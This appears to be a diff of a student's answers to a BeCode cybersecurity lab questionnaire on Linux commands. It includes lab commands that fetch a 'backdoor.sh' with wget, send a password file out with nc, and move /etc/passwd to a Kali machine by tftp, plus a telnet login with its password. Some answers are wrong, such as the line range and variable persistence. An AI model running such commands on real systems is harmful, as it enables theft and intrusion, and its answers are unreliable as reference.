

Before and after one commit to Crucius96/Becode_Cybersecurity, a Markdown page: Linux Chapter/Linux Commands/Theory_&_Questionnaire.md, 3 parts joined by grey strips. Shown: that part at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/Linux Chapter/Linux Commands/Theory_&_Questionnaire.md
+++ b/Linux Chapter/Linux Commands/Theory_&_Questionnaire.md
@@ -133,19 +133,16 @@ Read the following [article](https://ryanstutorials.net/linuxtutorial/piping.php
     > Your command : find /etc -name *conf* 2> /dev/null
 
 1. Now redirect the standard output and the error output of the ``find /etc -name *conf*`` command to two different files (std.out and std.err)
-    > Your command :
-
-1. What does the mkfifo command do?
-    > No answer required
+    > Your command :  find /etc -name *conf* 2> errors.txt 1> output.txt
 
 1. Create a pipe named "MyNammedPipe". Then execute the pwd command which will transmit the data in this pipe. Then use the cat command to read the contents of your "MyNammedPipe" pipe.
-    > Your commands :
+    > Your commands : mkfifo MyNamedPipe pwd > MyNamedPipe && cat MyNamedPipe
 
 1. With cat command, add number the lines in the file /etc/passwd with the command ``nl``
-    > Your commands :
+    > Your commands : cat /etc/passwd | nl
 
 1. Using the previous nl command, the head and tail commands, display the lines of /etc/passwd between line 7 and line 12
-    > Your commands :
+    > Your commands : nl /etc/passwd | head -n 11 | tail -n 4
 
 
 
@@ -163,16 +160,26 @@ Variables are made up of names that are assigned values. For example, a French u
 
 The meaning of an environment variable and the type of value that can be assigned to it are determined by the application that uses it. There are a small number of well-known environment variables, whose meaning and type of value are well determined, and which are used by many applications.
 
-### 6. Process
 
-#### Program VS Process
-A process is a program that executes and that also has its ordinal counter, its registers and its variables; this is the subtlety between program and process. The difference between a process and a program is thin: the process has the program but also the current state of this one in the memory of the computer. The program is ultimately the set of files that, when executed, become the process.
+## Exercises
 
-#### What is a PID ?
-A PID (that is, a process identification number) is an identification number that is automatically assigned to each process when it is created on a Unix-like operating system. A process is a running (i.e., executing) instance of a program. Each process is guaranteed a unique PID, which is always a non-negative integer.
+1. On your student machine what is the value of the FLAG environment variable ?
 
-Source: https://frameboxxindore.com/linux/what-is-pid-in-linux.html
+> FLAG : BC{EXPORT_B4SH_FLAG}
 
+2. Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).
+
+> Commands : export command=something
+
+3.  **From a hacker's perspective**, look for information that might be useful to you in the ``.history`` file.
+
+> Your answer : 119 telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!
+
+4.  **From an analyst's perspective**, look for information that might be useful to you in the ``.history`` file.
+
+> Your answer : 95 wget http://10.88.56.53/backdoor.sh and the following lines
+
+[Next](./Protocols_and_Servers.md)
 
 
 
@@ -267,4 +274,4 @@ Learning how to transfer files between files different machines.
     > ON SENDING END : nc -w 3 [destination] 1234 < password.txt
 
 1. On the student machine,  transfer ``/etc/passwd`` file to your kali machine with tftp
-    > Your commands :
+    > Your commands :  tftp 10.12.172.105
```
